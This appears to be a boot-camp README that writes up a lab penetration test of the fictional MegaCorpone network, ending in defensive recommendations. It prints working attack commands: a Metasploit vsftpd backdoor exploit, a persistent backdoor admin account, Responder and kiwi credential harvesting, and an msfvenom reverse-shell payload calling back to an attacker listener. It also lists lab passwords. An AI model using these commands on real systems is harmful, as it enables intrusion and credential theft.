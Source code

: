 # Challenges 16 &amp; 17: MegaCorpone/Offensive Security 

## Objective Summary
This project highlights offensive security techniques practiced during the University of California, Irvine's Cybersecurity Boot Camp. It involved simulating penetration testing on the fictional MegaCorpone Corporation to uncover and exploit vulnerabilities within their Linux servers and Windows servers. The objective was to identify potential security weaknesses and demonstrate real-world offensive security methodologies.
 
## Project Highlights
Key Achievements:
- Conducted vulnerability assessments and penetration tests on MegaCorpone’s network.
- Exploited misconfigurations and weaknesses in Linux and Windows server environments.
- Delivered actionable security insights and recommendations based on findings.

### Technical Skills Gained
- Server Security:
   - Conducted vulnerability scans and exploited misconfigurations on Linux and Windows servers.
   - Practiced privilege escalation to simulate full system compromise.
- Penetration Testing Methodology:
   - Followed the 5-phase penetration testing process: Reconnaissance, Scanning, Exploitation, Persistence, and Privilege Escalation.
   - Used the MITRE ATT&CK Framework to guide structured attack simulations.
- OSINT & Reconnaissance:
   - Leveraged OSINT tools like OSINT Framework, Google Dorking, and GitHub for information gathering.


### Tools & Environments Used
| Category                                      | Tools Used       |
|-----------------------------------------------|----------------------------|
| <b>Penetration Testing Tools</b>       | Metasploit, Searchsploit, MsVenom |
| <b>Vulnerability Scanning</b>  |  Nmap, Zenmap, Nessus | 
| <b>OSINT Tools</b> | OSINT Framework, Google, GitHub, Shodan.io | 
| <b>Virtual Environments</b> |  Kali Linux, Windows 10, Hyper-V Manager, Azure Windows VMs | 



## Project Write up
### Scenario Overview
MegaCorpone, a fictional company, engaged penetration testers (CTP, LLC) to evaluate the security of its web application, Linux, and Windows servers. As they prepared for launch, the goal was to identify and remediate vulnerabilities to ensure a secure deployment.

### Summary of Project Steps

1. <b>Reconnaissance</b>

Gathered publicly available information using Google Dorking and OSINT tools to uncover:
- Website asset files
- Employee usernames and emails
- Sensitve company data
- Server details with open ports (22, 80, 443)

Google Dorking Example:
google: site:megacorpone.com intext:email OR filetype:pdf OR filetype:doc
____________________
2. <b>Scanning & Enumeration</b>

Performed Nmap/Zenmap scans to discover network assests and vulnerabilities:
- Detected open ports (22, 80, 443) and the server OS (Apache/2.4.62 on Debian) on Linux server.
- Identified two additional Windows machines and their open ports.

 Nmap Scan Command Example:
- nmap -sV 172.22.117.150 (service version scan)
____________________
3. <b>Exploitation of Linux Server</b>
- Used MSFconsole to exploit vsftp 2.3.4 service on port 21 to gain access.
- Extracted stored credentials from system text files.
- Used credentials to SSH into the server for further exploitation.

MSFconsole Exploit Example:
- msfconsole -q
- use exploit/unix/ftp/vsftpd_234_backdoor
- set RHOSTS 172.22.117.150
- exploit

 SSH into Linux Server:
- ssh msfadmin@172.22.117.150

Credentials Discovered:
| Username     | Password |
| ------------- | -------- |
| msfadmin | cybersecurity |
| tstark   | Password! | 
____________________
4. <b>Persistence & Credential Harvesting</b>
- Created a persistent backdoor user account to maintain system access.
- Used MSFconsole and LLMNR protocol to capture additional credentials from the Windows 10 machine.
- Exploited Windows DC machine using MSFvenom and Kiwi tools to extract further login credentials.

 Creating a New User for Persistence Example:
- sudo adduser systemmd:password
- sudo usermod -aG admin systemd
- ssh -p 10022 systemd@172.22.117.150

 Kiwi Tools Example:
- kiwi_cmd lsadump::cache
  
 Capturing Windows Credentials Example:
- sudo responder -I eth1 -v

____________________
5. <b>Lateral Movement & Privilege Escalation</b>
- Used admin credentials to move laterally from Windows 10 to the Domain Controller (WinDC01).
- Deployed MSFvenom payloads to escalate privileges and compromise additional systems.

MSFvenom Payload:
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.20 LPORT=4444 -f exe > shell.exe

____________________
### Conclusion

CTP, LLC’s penetration test successfully uncovered critical security vulnerabilities in Megacorpone’s infrastructure. The test demonstrated how weak passwords, exposed usernames, unprotected ports, and vulnerable services could be exploited to gain unauthorized access. Addressing these security gaps is imperative to prevent potential cyber threats, data breaches, and ransomware attacks.

#### Key Takeaways:
- <b>Strengthen Password Policies:</b> Enforce multi-factor authentication and strong password requirements.
- <b>Update or Disable Daemon Services:</b> Regularly update or disable unnecessary services to reduce attack surfaces.
- <b>Secure Open Ports:</b> Restrict unnecessary services and implement firewall rules.
- <b>Monitor for Unauthorized Access:</b> Deploy intrusion detection systems (IDS) to detect suspicious activity.








